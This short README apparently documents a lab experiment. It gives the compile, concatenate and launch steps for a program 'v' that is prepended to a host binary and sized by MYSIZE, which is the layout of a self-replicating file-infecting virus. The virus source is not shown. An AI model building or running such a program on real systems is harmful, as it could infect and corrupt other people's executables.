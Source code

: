 This is a DANGEROUS experiment: Use only in a secured lab setup.

#### Bootstrap procedure

````
g++ -O -Wall -std=c++11 hi.cpp -o hi
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
ls -l v_tmp
````

Make sure the size of v_tmp is MYSIZE in the v.cpp source. Do another

````
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
````

Start:

````
./v
````
